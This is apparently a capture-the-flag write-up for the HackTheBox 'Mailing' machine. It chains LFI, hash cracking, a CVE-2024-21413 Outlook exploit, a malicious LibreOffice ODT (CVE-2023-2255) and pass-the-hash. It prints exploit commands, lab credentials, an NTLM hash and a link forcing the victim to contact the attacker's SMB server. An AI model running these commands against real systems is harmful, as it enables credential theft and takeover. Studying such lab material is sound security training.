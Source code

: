 ```yaml
---
description: >-
  Windows | easy | IIS server | LFI | hMailServer | CVE-2024-21413 Outlook |
  CVE-2024-21413 Libre Office
---
```


# Mailing



<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

On the website we can see an upload button to download pdf instruction for mail connection. with an email sent to maya@mailing.htb.



When we intercept it whith burp we can see an LFI. After looking for IIS intersting files we did check on hMailServer files to find the .ini files with Mysql credentials.





<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Lets use Hashcat to decrypt the hash :&#x20;

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

&#x20;Administrator:homenetworkingadministrator

&#x20;now that we have a password we looked for a another CVE and found CVE-2024-21413

[https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git)

```bash
python3 CVE-2024-21413.py --server "10.10.11.14" --port 465 --username "Administrator@mailing.htb" --password "homenetworkingadministrator" --sender "Administrator@mailing.htb" --recipient "maya@mailing.htb" --url "
\\OURIP\message
" --subject "frfr"
```

goal is to send a mail to maya with a malicious link. when she will click on it she will contact ou smb server and we will intercept her Hash.&#x20;





evil-winrm -i 10.129.231.40 -u maya -p 'm4y4ngs4ri'



m4y4ngs4ri



after using winpeas we can see some interesting things :&#x20;

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/elweth-sec/CVE-2023-2255" %}

in order to exploit this CVE we have first to generate a malicious odt file  with our injected&#x20;

```
python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'file.odt'
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



crackmapexec smb 10.129.231.40 -u maya -p "m4y4ngs4ri" --sam



<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::

crackmapexec smb 10.129.231.40 -u localadmin -H "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae" -x "cmd.exe /c type c:\users\localadmin\Desktop\root.txt"
